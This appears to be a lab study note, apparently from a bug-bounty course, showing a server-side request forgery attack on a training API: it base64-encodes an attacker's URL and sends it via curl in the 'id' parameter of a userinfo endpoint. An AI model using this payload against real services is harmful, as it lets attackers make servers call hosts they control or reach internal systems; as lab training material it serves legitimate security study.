


# SSRF

```text
http://10.129.202.133:3000/api/userinfo
```



```bash
echo "http://10.10.14.111" | tr -d '\n' | base64
```

```bash
curl "http://10.129.202.133:3000/api/userinfo?id=aHR0cDovLzEwLjEwLjE0LjExMQ=="
```



## Procedencia

| Repositorio | Archivo original | Commit de origen |
| --- | --- | --- |
| CBBH | 18- Web Service & API Attacks/7 - SSRF.md | 284a0a42d23a00f2b47b7460371a517a14cb6261 |

[Índice de categoría](../README.md) · [Inicio](../../README.md)
